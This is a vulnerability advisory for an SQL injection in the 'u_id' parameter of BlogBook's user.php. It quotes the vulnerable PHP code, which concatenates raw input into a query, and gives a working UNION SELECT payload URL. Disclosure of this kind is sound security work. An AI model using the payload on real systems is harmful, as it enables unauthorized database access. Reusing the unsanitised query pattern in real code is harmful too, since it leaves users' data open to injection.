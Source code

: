 # BlogBook user.php u_id Parameter SQL Injection

**Exploit Title: BlogBook user.php u_id Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows, Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

The BlogBook application is vulnerable to SQL injection via the `u_id` parameter in the `user.php` script. An unauthenticated attacker can exploit this vulnerability by providing a specially crafted `u_id` value in the URL. This allows the attacker to execute arbitrary SQL commands on the backend database, potentially leading to unauthorized data access, modification, or deletion, and in some configurations, remote code execution.

## Vulnerability Point

`blogbook-main/user.php:26`

## Vulnerable Parameter

`u_id`

## Vulnerable Code

```php
  if (isset($_GET['u_id'])) {
                    $link_user_id = $_GET['u_id'];



                    $query = "SELECT * FROM users WHERE user_id=$link_user_id";
                    $select_all_users_query = mysqli_query($connection, $query);


                    while ($row = mysqli_fetch_assoc($select_all_users_query)) {
    
                        $user_id = $row['user_id'];
                         $username = $row['username'];
                        $user_fname = $row['user_firstname'];
                        $user_lname = $row['user_lastname'];
                        $user_mail = $row['user_email'];
                           $user_image = $row['user_image'];
                        $user_role = $row['user_role'];
                        $user_info=$row['user_info'];
    
                        //  $query = "SELECT * FROM categories WHERE cat_id={$user_category_id}";
                        //         $select_categories_id = mysqli_query($connection, $query);
                        //         $cat = mysqli_fetch_assoc($select_categories_id);
                        //         $user_category = $cat['cat_title'];
                    }
                ?>
```
## Payload

`http://localhost/user.php?u_id=-1 UNION SELECT NULL,@@version,NULL,NULL,user(),NULL,NULL,NULL,NULL --`

![user.php sqli](./assets/user_sqli.png)
